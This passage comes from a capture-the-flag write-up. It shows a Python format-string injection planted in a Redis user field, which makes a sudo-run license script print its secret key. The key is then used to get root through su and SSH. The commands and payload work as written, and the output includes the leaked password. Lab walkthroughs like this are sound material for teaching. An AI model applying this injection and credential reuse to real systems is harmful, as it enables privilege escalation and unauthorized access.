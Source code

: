 

    microblog{username}{license.license}{first-name}{license.__init__.__globals__[secret]}



When that gets formatted, it should print the secret.

#### Execute

In Redis, I'll start with a new user, rooted:



    redis /var/run/redis/redis.sock> hset rooted username rooted
    (integer) 1
    redis /var/run/redis/redis.sock> hset rooted first-name "password:"
    (integer) 1
    redis /var/run/redis/redis.sock> hset rooted last-name "{license.__init__.__globals__[secret]}"
    (integer) 1



I've made the first name `password:` to show easily where the secret
starts. Running the script now prints the unencrypted key:



    cooper@format:~$ sudo license -p rooted

    Plaintext license key:
    ------------------------------------------------------
    microblogrooted/%QIQ#0?qCGURyI8}RZrdh>#l^L`P7XbP#n@*'a*password:unCR4ckaBL3Pa$$w0rd

    Encrypted license key (distribute to customer):
    ------------------------------------------------------
    gAAAAABkYqXC2Xp3JGFVI__uSfLXpBzX84cyRMkAtN5tYqc3CgN8qGmQ70FWSBwn4RVPgKRVgfh0UqkoXO007-QouG9IaUKUygOQAr5TXp2ItrC5eANNlSpeyC37bi9KRF4nRCW4YmebU2_nr0HC8w9gIVfFo2XyjHkYlACttPbHmlQ61mc-8dE5CP6-bUWLBnIcmHqMXF06



The secret is `unCR4ckaBL3Pa$$w0rd`.

### su / SSH

That secret works as the password for root via `su`:



    cooper@format:~$ su -
    Password: 
    root@format:~#



and SSH:



    oxdf@hacky$ sshpass -p 'unCR4ckaBL3Pa$$w0rd' ssh root@10.10.11.213
    ...[snip]...
    root@format:~# 
